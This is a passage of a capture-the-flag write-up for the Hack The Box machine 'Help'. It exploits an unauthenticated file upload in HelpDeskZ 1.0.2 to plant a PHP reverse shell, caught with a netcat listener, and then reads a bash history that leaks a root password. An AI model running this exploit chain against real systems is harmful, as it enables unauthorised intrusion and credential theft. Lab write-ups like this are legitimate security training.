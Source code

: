 The arbitrary file upload is unauthorized. And abuses the ticket system.

http://help.htb/support/?v=submit_ticket&action=displayForm Here we can upload files along with our ticket. 

I tried it out, but I got a "File is not allowed" message. So I looked for some source code, and found it here: https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php

I see that the upload dir is UPLOAD_DIR.tickets/. So probably /uploads/tickets.

```
137				if(!isset($error_msg) && $settings['ticket_attachment']==1){
138					$uploaddir = UPLOAD_DIR.'tickets/';	
```

I also see that the file is uploaded, and then verified afterwards. And nothing deletes the file if the verification fails.

So the file is probably still uploaded. And as we can see on the exploit, the filename is just obfuscated a bit. But this is guessable:

```
kali@kali:~/htb/Help$ python 40300.py http://help.htb/support/uploads/tickets/ php-reverse-shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
Sorry, I did not find anything
```

And on our listner:

```
kali@kali:~/htb/Help$ sudo nc -nlvp 1337
[sudo] password for kali: 
Listening on 0.0.0.0 1337
Connection received on 10.129.42.250 56256
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 06:27:47 up  1:08,  0 users,  load average: 0.06, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
help
$ 
```
interstingly, the help user is part of group 4(adm). The admin group.

I improve the shell with `script /dev/null -c bash` etc. And start looking.

The bash history:

```
help@help:/home/help$ cat .bash_history 
sudo mkdir lol
ls -la
cat .bash_history 
rm -rf .bash_history 
touch .bash_history
ls -la
su
su
rOOTmEoRdIE
su
MS'
exit
/
al
;
```